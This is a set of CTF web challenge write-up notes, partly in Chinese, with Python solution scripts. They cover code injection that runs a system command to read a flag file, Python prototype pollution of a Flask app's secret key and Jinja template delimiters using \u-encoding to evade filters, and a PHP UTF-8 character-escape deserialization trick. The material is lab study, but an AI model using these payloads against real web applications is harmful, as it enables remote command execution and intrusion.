 # CodeInject
	- ```python
	  url = "https://22f24a2f-f7f6-4e35-933a-cef26b490209.challenge.ctf.show/"
	  
	  r = base_post(url, data = {
	      "1": "(''.system('cat /000f1ag.txt'))"
	  })
	  print(r.text)
	  ```
- # easy_polluted
	- [[CTFWEB/Python/Python的原型链污染]]
	- 用`\u`绕过编码，然后污染`secret_key`和`variable_start_string`实现输出flag
	- ```python
	  def encode(d):
	  
	      s = json.dumps(d)
	      for match in re.findall('".+?"', s):
	          s = s.replace(
	              match, '"' + "".join("\\u00" + hex(ord(c))[2:] for c in match[1:-1]) + '"'
	          )
	      return s
	  
	  
	  r = base_post(
	      url,
	      headers={"Content-Type": "application/json"},
	      data=encode({"__init__": {"__globals__": {"app": {"secret_key": "114514"}}}}),
	  )
	  r = base_post(
	      url,
	      headers={"Content-Type": "application/json"},
	      data=encode(
	          {
	              "__init__": {
	                  "__globals__": {
	                      "app": {
	                          "jinja_env": {
	                              "variable_start_string": "[#",
	                              "variable_end_string": "#]",
	                          }
	                      }
	                  }
	              }
	          }
	      ),
	  )
	  ```
- # Ezzz_php
	- > 未解出，暂时找不到flag在哪里
	- 可以利用utf8的特性吃掉前面的`[`，同时利用utf8的特性形成字符逃逸，这样就可以在read参数中携带反序列化payload了
	- 读文件这么读
		- ```python
		  # url = "http://127.0.0.1:8081"
		  url = "https://46022ac3-97d6-4548-b17a-1c60c1ed7463.challenge.ctf.show/"
		  
		  payload = encoder.urldecode(shell.exec("php gen.php")[0])
		  payload = "%81" * (len(payload) + 1) + encoder.urlencode(payload)
		  print(payload)
		  
		  r = base_get(url, params={"start": "x" * 1000, "read": urldecode_to_bytes(payload)})
		  print(r.text)
		  ```